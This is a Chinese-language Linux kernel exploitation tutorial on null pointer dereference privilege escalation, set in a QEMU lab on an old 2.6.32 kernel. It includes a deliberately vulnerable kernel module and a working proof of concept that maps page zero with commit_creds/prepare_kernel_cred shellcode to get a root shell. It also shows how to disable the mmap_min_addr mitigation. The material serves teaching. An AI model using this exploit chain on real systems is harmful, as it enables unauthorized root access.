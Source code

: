 # how2kernel————第二节null dereference

## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>环境搭建完了，我们就来先学一下最简单的null dereference的kernel漏洞利用，顾名思义，对未初始化的指针进行引用就会寻址到0地址，也就是null引用。如果程序中存在未初始化的函数指针，调用这个指针就会有一个类似call 0x00000000的行为。我们先来看一下32位下程序的内存分布：</font></br>

![内存分布](./000.JPG)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以假设我们有一个存在null dereference的漏洞的内核模块，当我们用一个用户进程去访问时，**mmap映射一块从0开始的内存**，然后在这块内存中布置好shellcode，然后调用未初始化函数指针时就会去调用我们的shellcode，完成提权攻击。所以有如下漏洞代码：</font></br>

```C
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>
void (*my_funptr)(void);
int bug1_write(struct file *file,const char *buf,unsigned long len)
{
        my_funptr();
        return len;
}
static int __init null_dereference_init(void)
{
        printk(KERN_ALERT "null_dereference driver init!\n");
        create_proc_entry("bug1",0666,0)->write_proc = bug1_write;
       return 0;
}
static void __exit null_dereference_exit(void)
{
        printk(KERN_ALERT "null_dereference driver exit\n");
}
module_init(null_dereference_init);
module_exit(null_dereference_exit);

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>看不懂内核代码也没事，我们即使看到init和exit也可以猜测到这是**注册了初始化函数和退出函数**。内核驱动的模块创建有一个约定就是用**module\_init注册驱动创建的主函数**，然后用**module_exit注册驱动的清理与卸载函数**。这里我们用了null_dereference_init作为注册函数，然后函数很简单，没有申请设备号，没有注册设备，只是设置了一个入口函数，就是我们的漏洞函数bug1_write（**用create_proc_entry返回的结构直接访问write_proc在高版本内核中已不可行**），**bug1_write调用了一个未初始化的函数指针**。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来我们看我们的用户层测试代码：</font></br>

```C
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

// xor eax,eax
// call prepare_kernel_cred 
// call commit_creds
// ret
// 等价于 commit_creds(parepare_kernel_cred(0));
char payload[] = "\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3";

int main(){
    mmap(0, 4096,PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS ,-1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "fanda", 5);
    system("/bin/sh");
    return 0;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>当执行这个程序的时候，内存分布图是这样的</font>：</br>

![mmap](./001.JPG)

- mmap映射了最低处内存0的大小为0x1000的一块内存（并不是物理地址，是虚拟地址）；
- 在这块内存上布置了shellcode；
- 打开了之前创建的内核模块后调用write与之交互触发write_proc函数也就是我们之前设置为的bug1_write；
- null dereference访问到了mmap的内存处，执行了我们的shellcode。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终内存分布图是这样的：</font></br>

![shellcode](./002.JPG)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们在qemu虚拟机里创建用户进行测试，为了避免麻烦我们直接写一个脚本（makeuser.sh）用来安装模块创建用户，并重新用cpio生成文件镜像：</font></br>

```shell
#!/bin/sh

insmod *.ko
mkdir -p /home/fanda
touch /etc/passwd
touch /etc/group
adduser fanda

sysctl -w vm.mmap_min_addr="0"
su fanda

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这一句sysctl -w vm.mmap_min_addr="0"是什么意思？是因为在这个内核版本中内核已经有了**设置mmap的最小地址为0x1000**作为缓解措施，所以我们要关闭之。运行poc：</font></br>

```shell
/mytest # su fanda
/mytest $ ./poc
/mytest # whoami
whoami: unknown uid 0
/mytest # id
uid=0 gid=0
/mytest # exit
/mytest $ 
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>可以看到测试成功，我们成功完成提权。</font></br>



## 附录

**get shellcode**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>首先编写asm文件：</font></br>

```assembly
Section .text
        global _start
_start:
	xor eax,eax
	call 0xc1067fc0
	call 0xc1067e20
	ret

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为我比较懒，所以直接写了个脚本编译链接：</font></br>

```shell
#!/bin/sh

nasm -f elf32 null_dereference.asm  -o null_dereference.o
ld -s -Ttext=0  null_dereference.o -o null_dereference

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后直接使用objdump -s null_dereference就可以得到机器码了，不确定自己有没有写对的话就用-S参数看看汇编：</font></br>

```shell
➜  null_dereference objdump -S null_dereference

null_dereference:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 b9 7f 06 c1       	call   0xc1067fc0
   7:	e8 14 7e 06 c1       	call   0xc1067e20
   c:	c3                   	ret   
➜  null_dereference objdump -s null_dereference

null_dereference:     file format elf32-i386

Contents of section .text:
 0000 31c0e8b9 7f06c1e8 147e06c1 c3        1........~...  
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>（此处再重复）因为我很懒所以我又写了个脚本：</font></br>

```python
import binascii
import sys

if __name__ == '__main__':

	result=''
	opcode=''
	for i in sys.argv[1:]:
		result+=binascii.a2b_hex(i)
	
	for i in result:
		opcode+='\\x'+hex(ord(i))[2:]

	print opcode

```

```shell
➜  shellcode python getopcode.py 31c0e8b9 7f06c1e8 147e06c1 c3
\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这就能得到我们最终的shellcode了，等等，这两个call的绝对地址是怎么来的？为什么是这两个函数？</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>在kernel中，给进程赋予root权限就是用prepare_kernel_cred()函数，参数用0表示root，然后commit_creds函数就是相当于提交凭证，就可以完成提权了，在我们用qemu生成的内核虚拟机的终端中用**grep prepare_kernel_cred /proc/kallsyms**就可以得到这些地址了（**前提是内核未开启地址泄漏保护**），同理也可以得到commit_creds函数的地址：</font></br>

```shell
/ # grep prepare_kernel_cred /proc/kallsyms 
c1067fc0 T prepare_kernel_cred
c15fcf3c r __ksymtab_prepare_kernel_cred
c1606504 r __kcrctab_prepare_kernel_cred
c160d1f9 r __kstrtab_prepare_kernel_cred
/ # grep commit_creds /proc/kallsyms 
c1067e20 T commit_creds
c11bc6f0 T security_commit_creds
c15fcf5c r __ksymtab_commit_creds
c1606514 r __kcrctab_commit_creds
c160d235 r __kstrtab_commit_creds
/ # 
```



**remote gdb**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>之前我们开启qemu虚拟机的时候用了-s参数开启了远程调试端口，所以我们只需要用**gdb的target remote：1234就能attach上去了**，还有一些要注意的是gdb要选取**linux kernel文件夹下的vmlinux作为调试文件**。然后最好添加**symbol文件**方便直接下断点，后面要跟一个模块基地址，基地址可以在insmod安装之后用这个命令取得：</font></br>

```shell
/mytest # cat /proc/modules 
null_dereference 725 0 - Live 0xc8831000 (P)
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>为了方便我还是写了一个gdbscript：</font></br>

```shell
➜  kernel cat gdbscript 
file /home/fanda/Desktop/file/linux-2.6.32.1/vmlinux
add-symbol-file /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest/null_dereference.ko  0xc8831000
b bug1_write
target remote :1234
c
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以调试步骤是：</font></br>

- 先用（第一节的）boot.sh启动qemu虚拟机；
- 虚拟机里用makeuser.sh创建用户，安装模块，关闭保护；
- 用gdbscript attach上远程调试端口下断后继续执行。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终效果如下：</font></br>

![](./003.jpg)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>单步进入null dereference的函数之后可以看到我们的shellcode：</font></br>

![](./004.jpg)


